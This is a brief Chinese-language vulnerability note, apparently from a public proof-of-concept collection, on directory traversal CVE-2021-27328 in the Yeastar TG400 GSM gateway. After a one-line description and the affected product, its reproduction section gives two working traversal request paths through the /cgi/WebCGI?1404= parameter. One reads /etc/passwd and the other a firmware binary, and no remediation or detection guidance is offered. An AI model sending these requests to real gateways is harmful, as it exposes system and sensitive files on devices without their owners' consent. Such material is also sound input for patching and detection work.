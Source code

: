 # 朗视 TG400 GSM 网关目录遍历  CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>朗视 TG400 GSM 网关</a-checkbox></br>

## 漏洞复现

```plain
/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650602505512-6ebb6038-f759-4cbe-9f40-a4e398385f61.png)